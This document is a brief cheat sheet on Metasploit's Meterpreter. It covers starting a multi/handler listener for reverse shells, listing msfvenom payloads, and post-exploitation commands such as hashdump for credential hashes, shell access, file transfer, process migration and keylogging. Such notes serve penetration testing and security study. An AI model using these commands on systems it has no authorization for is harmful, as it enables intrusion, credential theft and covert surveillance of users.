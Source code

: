 ##### Basics
The Meterpreter is a Metasploit agent, staying well out of sight of the target, and establishing encrypted TLS connection to the attacker.
Meterpreter will be detected by major antivirus software, but is still very stealthy.
Because the Meterpreter runs on the RAM, it will be gone by the time the device has rebooted.
Meterpreter will connect to a running MSFConsole session.

##### Listening
To listen for a reverse shell, use (in MSFConsole):
```
use exploit/multi/handler
set PAYLOAD USED_PAYLOAD 
set LHOST IP
set LPORT PORT
set ExitOnSession false
exploit -j
```

##### Payloads
There are many payloads available, for a lot of different platforms. To list them, use 
```
msfvenom --list payloads | grep meterpreter
```

When you decide the payload, use these factors:
- The operating system of the target
- Available components on the target's system (Python, PHP, etc)
- Allowed network connection types

##### Commands
Run `help` to get a list with description of all commands.

Important commands:
```
background       // Background the current session.
sessions         // View and switch between sessions.
run              // Execute a Meterpreter script or module.
upload/download  // Uploads/downloads content to or from the target machine.
shell            // Drops into a system shell on the target.
hashdump         // Dums the contents of the SAMM database.
getuid           // Check user privilege.
search           // Search for file on target system.
show options     // View all info
```


###### Migration
Process migration will help you interact, stabilize and record keystrokes on a program.
Usage: `migrate PID`
Logging keys: `keyscan_start`, `keyscan_stop`, `keyscan_dump`
Note: This will change the user privilege level, which you might not be able to gain back.

